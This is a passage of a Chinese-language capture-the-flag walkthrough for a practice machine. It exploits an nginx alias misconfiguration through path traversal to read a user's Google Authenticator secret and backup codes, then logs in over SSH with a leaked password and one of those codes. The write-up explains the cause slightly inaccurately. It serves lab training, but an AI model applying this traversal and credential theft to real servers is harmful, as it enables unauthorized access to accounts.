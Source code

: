 访问这个文件

```plaintext title="http://susan.eighty.hmv/web/lostpasswd.txt"
8ycrois-tu0 + /home/susan/secret/.google-auth.txt
```

同时，结合上文得到的 nginx 配置文件

```plaintext
server {
server_name susan.eighty.hmv;
root /var/www/html;
index index.html index.htm index.nginx-debian.html;
        location /web {
                alias /home/susan/web/;
        }
  }
```

由于配置文件的 `location` 部分没有闭合，导致可以实现路径穿越

```plaintext title="http://susan.eighty.hmv/web../secret/.google-auth.txt"
2GN7KARBONVR55R7SP3UZPN3ZM
" RATE_LIMIT 3 30
" WINDOW_SIZE 17
" DISALLOW_REUSE
" TOTP_AUTH
71293338
48409754
27074208
60216448
17908010
```

## User - susan

```bash
┌─[randark@parrot]─[~]
└──╼ $ ssh susan@192.168.56.125
(susan@192.168.56.125) Password: ** 8ycrois-tu0 **
(susan@192.168.56.125) Verification code: ** 71293338 **
Linux eighty 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar  2 07:01:10 2024 from 192.168.56.102
susan@eighty:~$ whoami
susan
```

:::note

